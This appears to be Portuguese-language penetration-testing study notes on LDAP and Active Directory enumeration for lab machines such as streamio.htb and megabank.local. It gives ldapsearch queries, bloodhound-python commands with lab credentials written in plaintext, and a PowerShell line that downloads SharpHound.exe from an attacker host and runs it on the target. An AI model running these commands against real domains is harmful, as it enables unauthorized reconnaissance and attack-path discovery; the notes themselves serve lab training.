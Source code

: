 # LDAP

Após a fase de enumeração, que pode ser encontrada [aqui](Infraestrutura/OSCP%20Enumeration.md#LDAP), podemos prosseguir com os demais comandos, tais como:

```
ldapsearch -x -H ldap://<hostname> -b "DC=streamio,DC=htb" "*"

ldapsearch -H ldap://10.10.11.158:3268/ -x -s base -b '' "(objectClass=*)" "*"
```

Com credencial

```
ldapsearch -x -H ldap://10.129.210.134 -D "yoshihide@streamio.htb" -W -b "dc=streamio,dc=htb" "(objectclass=group)"
```

Command options explained:

\-x use simple authentication (as opposed to SASL) -H your AD server -D the DN to bind to the directory. In other words, the user you are authenticating with. -W Prompt for the password. The password should match what is in your directory for the the bindn (-D). Mutually exclusive from -w. -b The starting point for the search

## Enumeracao Usuarios

## Enumeracao (com credenciais)

Para facilitar a enumeração via ldap, podemos utilizar o bloodhound. Visto que é provável que todas as demais enumerações sejam possíveis por ldapsearch também, porém, os comandos e o protocolo detém uma complexidade um pouco maior. Deixaremos essa pesquisa para o futuro. Focando no bloodhound no momento, vamos considerar algumas opções de enumeração.

**Remotamente**

```
bloodhound-python -u administrator -p Ignite@987 -ns 192.168.1.172 -d ignite.local -c All
```
    
    #Outro exemplo

```
bloodhound-python -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -v --zip -c All -dc MEGABANK.LOCAL -ns 10.10.10.172
```

**Localmente**

```
(new-object net.webclient).downloadfile('http://10.10.14.17/SharpHound.exe', 'c:\temp\sh.exe')
.\sh.exe -c all -d active.htb --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller 10.10.10.100
```

Aqui devemos levar em conta algumas coisas na hora de analisar. As ACLs e as permissões que nossos usuários possuem no domínio. Isto pode ser visto por meio do bloodhound da seguinte maneira:

![qownnotes-media-aLRwyW](../.gitbook/assets/qownnotes-media-aLRwyW.png)

Além de verificar os caminhos pré montados qque já fazemos:

![qownnotes-media-GzmGRm](../.gitbook/assets/qownnotes-media-GzmGRm.png)

Outra opção para ser observado seria:

![qownnotes-media-LVuEYt](../.gitbook/assets/qownnotes-media-LVuEYt.png)

Ao clicar com o botão direito no objeto, temos de procurar caminhos mais curtos para chegar neste ponto. Dessa forma, não deixamos passar nenhuma análise por meio do bloodhound.